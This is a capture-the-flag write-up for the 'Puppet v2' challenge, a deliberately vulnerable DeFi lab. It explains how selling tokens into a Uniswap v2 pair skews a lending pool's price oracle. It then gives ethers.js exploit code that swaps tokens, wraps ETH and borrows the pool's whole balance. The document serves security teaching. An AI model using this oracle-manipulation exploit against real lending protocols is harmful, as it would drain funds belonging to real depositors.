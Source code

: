 # Challenge #9 - Puppet v2
 The developers of the last lending pool are saying that they've learned the lesson. And just released a new version!

 Now they're using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.

 You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)  

## Price Manipulation
For this new challenge, as well as the puppet v1 we have to drain the pool contract. In order to do that, 
we need to manipulate the price of WETH/DVT pair in uniswap v2. 

When we look at the contract, we can see that the getOracleQuote() although is using the uniswap v2 official libraries, it 
does the same operation as the puppet v1 and it's still subject to price manipulation. 
Therefore, we can still manipulate the price selling a bunch of DVT tokens and decreasing the amount of eth 
in liquidity. 

The main difference here, is that instead of sending ether, to the borrow function in the lending pool contract we have to send weth in order
to borrow DVT tokens. So, we'll have to exchange or DVT tokens for ETH in uniswap and then convert all our ETH to WETH and 
hope that we have a higher amount of WETH that the calculateDepositRequired() requires.

## Exploit 
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
		// Approve DVT
        await this.token.connect(attacker).approve(
            this.uniswapRouter.address,
            ethers.utils.parseEther('10000'),
        );
		//Swap tokens for ETH
		await this.uniswapRouter.connect(attacker).swapExactTokensForETH(
			ATTACKER_INITIAL_TOKEN_BALANCE,
			0,
			[this.token.address, this.weth.address],
			attacker.address,
			(await ethers.provider.getBlock('latest')).timestamp * 2,
		);
		// Convert ETH to WETH
		const weth_required = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE)
		await this.weth.connect(attacker).deposit({value: weth_required});
		// Approve WETH
        await this.weth.connect(attacker).approve(
            this.lendingPool.address,
            weth_required,
        );
		// Drain Pool
		await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
    });
```
